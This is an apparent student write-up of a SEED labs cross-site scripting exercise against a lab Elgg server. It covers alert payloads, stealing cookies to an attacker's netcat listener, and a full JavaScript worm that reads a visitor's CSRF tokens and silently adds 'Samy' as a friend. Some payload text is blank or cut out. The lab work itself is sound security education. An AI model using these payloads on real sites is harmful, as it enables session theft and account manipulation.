









# Cross-Site Scripting Attack Lab #10

This week's suggested lab was [Cross-Site Scripting (XSS) Attack Lab](https://seedsecuritylabs.org/Labs_20.04/Web/Web_XSS_Elgg/), from SEED labs. Cross-site scripting is a vulnerability that allows attackers to inject malicious code (e.g., JavaScript programs) into victims' web browsers. Using this malicious code, attackers can steal a victim’s credentials, such as session cookies. The access control policies (i.e., the same-origin policy) employed by browsers to protect those credentials can be bypassed by exploiting XSS vulnerabilities.

## Task 1

In this task, we have to inject the following JavaScript code into our Elgg profile:

```javascript
alert("XSS");
```

This code should be executed whenever someone views our profile. To achieve this goal, we can update our "brief description" field as follows:

<figure align="center">
  
  <figcaption>Figure 1. XSS injection.</figcaption>
</figure>

Every time someone views our profile, the following popup will show up:

<figure align="center">
  
  <figcaption>Figure 2. Injected JavaScript execution.</figcaption>
</figure>

## Task 2

This task also aims to inject JavaScript code that will be executed whenever someone views our profile. However, we want to display the user's cookies in the alert window this time.

To accomplish this, we can update the "brief description" section, as the previous task:

<figure align="center">
  
  <figcaption>Figure 3. XSS injection.</figcaption>
</figure>

Every time someone views our profile, the injected Javascript code will be executed, and the following window will show up:

<figure align="center">
  
  <figcaption>Figure 4. Injected JavaScript execution.</figcaption>
</figure>

## Task 3

As in the previous task, only users could see their own browser's cookies. In this task, we, as an attacker, want the cookies to be sent to our machine.

As proposed, we can do this by injecting an HTML tag that will perform a request. In this case, the `` tag can be used since the URL in the `src` field is used to perform an HTTP GET request. So we can write the attacker machine's address with a specific port that the attacker can be listening to. This way, while listening to that port using, for example, `netcat`, the attacker can see requests sent from the users' browser, with their cookies as parameters in the URL.

```html
<script>
	document.write(
		""
	);
</script>
```

<figure align="center">
  
  <figcaption>Figure 5. Script injection in user profile.</figcaption>
</figure>

<figure align="center">
  
  <figcaption>Figure 6. Request received in attacker's machine.</figcaption>
</figure>

As shown in figure X, the attacker can see that a GET request was received, and, next to `/?c=`, they can see the user's cookies.

## Task 4

In this last task, we want to write an XSS worm that automatically adds user "Samy" as a friend to any user that visits his page.

We can do something similar to the other tasks and embed a JavaScript program in Samy's profile. However, this code must make any user who visits the page send the appropriate request to add Samy as a friend.

In order to find how to write this request, we can, while logged in as Samy, inspect the "Add Friend" button on another user's page:

<figure align="center">
  
  <figcaption>Figure 7. "Add friend" button inspection.</figcaption>
</figure>

By inspecting the button element, we can see that a request is sent to the URL `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1641939671&__elgg_token=OvXl8SQ39WUqvGa_Auct7A`, with the `friend` parameter being the ID of the user to be added and the following parameters being tokens for user authentication.

We could find Samy's ID by inspecting the "Members" page. In the member list of this page, the list elements contained the IDs of every member in the list, including Samy, which was 59.

<figure align="center">
  
  <figcaption>Figure 8. Members list inspection with Samy's ID.</figcaption>
</figure>

With this information, we can create a request that will add Samy as a friend when executed in a script on other users' browsers. This request has the following URL:
`http://www.seed-server.com/action/friends/add?friend=59&__elgg_ts=user_ts&__elgg_token=user_token`, with the fields `__elgg_ts` and `__elgg_token` being generated in the script, according to the user's current token.

So the final script should be the following:

```javascript
window.onload = function () {
	var Ajax = null;
	var ts = "&__elgg_ts=" + elgg.security.token.__elgg_ts;
	var token = "&__elgg_token=" + elgg.security.token.__elgg_token;

	var sendurl =
		"http://www.seed-server.com/action/friends/add?friend=59" + ts + token;

	Ajax = new XMLHttpRequest();
	Ajax.open("GET", sendurl, true);
	Ajax.send();
};
```

We can then insert the code on a `<script>` tag and write it in the "About me" field of Samy's profile page, having clicked on "Edit HTML" beforehand:

<figure align="center">
  
  <figcaption>Figure 9. Embedded JavaScript for attack.</figcaption>
</figure>

Furthermore, now every user who visits Samy's profile page will have the script running in their machine and send a request automatically adding Samy as their friend.

Regarding the last questions:

-   Explain the purpose of Lines 1 and 2, why are they are needed?
    As part of the HTTP request to send to the server, we need lines 1 and 2 to correctly identify the person who's adding Samy.

-   If the Elgg application only provide the Editor mode for the "About Me" field, i.e., you cannot switch to the Text mode, can you still launch a successful attack?
    The Editor mode adds extra HTML code to the text typed into the field which makes it not executable. So the attack will not launch.
